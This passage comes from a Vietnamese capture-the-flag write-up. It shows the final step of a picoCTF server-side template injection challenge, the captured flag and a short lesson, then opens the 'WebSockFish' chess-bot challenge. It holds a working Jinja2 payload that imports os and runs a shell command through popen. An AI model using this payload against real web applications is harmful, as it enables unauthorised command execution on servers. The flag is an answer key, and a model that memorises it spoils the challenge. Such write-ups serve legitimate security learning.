 ![alt text](image-25.png)
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}</b>
![alt text](image-26.png)
> Flags: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
### Kết luận
Những gì đã học được
> Khai thác lỗ hổng SSTI
## WebSockFish
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b> <br>
> Được giải quyết bởi: <b>Pwn4s0n1c</b> <br>
> 1,022 giải quyết / 200 point <br>
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★★☆☆☆☆☆☆☆☆
### Lý lịch
Bạn có thể thắng một cách thuyết phục trước con bot cờ vua này không? Nó sẽ không dễ dàng với bạn đâu! Bạn có thể tìm thấy thử thách ở đây.